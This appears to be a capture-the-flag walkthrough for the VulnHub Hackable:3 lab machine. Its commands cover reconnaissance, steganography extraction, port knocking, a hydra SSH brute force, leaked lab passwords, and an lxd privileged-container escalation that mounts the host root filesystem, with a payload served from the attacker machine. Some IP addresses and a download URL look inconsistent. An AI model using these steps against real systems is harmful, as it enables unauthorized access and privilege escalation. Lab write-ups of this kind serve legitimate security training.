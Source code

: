 
# Hackable:3 Walkthrough 

**VulnHub Link:** [Hackable:3](https://www.vulnhub.com/entry/hackable-iii,720/)
**Difficulty:** Medium
**Release Date:** 2 Jun 2021


## 1.Reconnaissance

nmap -A -O -T4 -P -sV 192.168.100.139

## 2. Web Enumeration

dirb http://hackable3.com

wordlist.txt found from /backup
1.txt found from /config
2.txt found from /css
3.jpg found /

wget http://192.168.100.140/3.jpg ; steghide extract -sf 3.jpg (no passphrase) --> 65535

knock 192.168.100.140 10000 4444 65535 --> SSH will be open after this command 


## 3.Brute Force

hydra -l jubiscleudo -P wordlist.txt ssh://192.168.100.140 -I


## 4.Privilege Escalation


jubiscleudo:onlymy found

ssh jubiscleudo@192.168.100.140 
cat .user.txt ---> User flag Captured

cd /var/www/html --> cat .backup.config.php ---> hackable_3 user's password found

hackable3:TrOLLED_3

we found out that lxd from id command

in our attacker machine ---> 
wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/Hackable%3A3/alpine-v3.13-x86_64-20210218_0139.tar.gz
python3 -m http.server 80

in victim machine --->
wget 192.168.100.140/alpine-v3.13-x86_64-20210218_0139.tar.gz

lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
lxd init (Press Enter everything)

lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh

cd /mnt/root/root
cat root.txt

BINGO!!!! Root flag captured.!
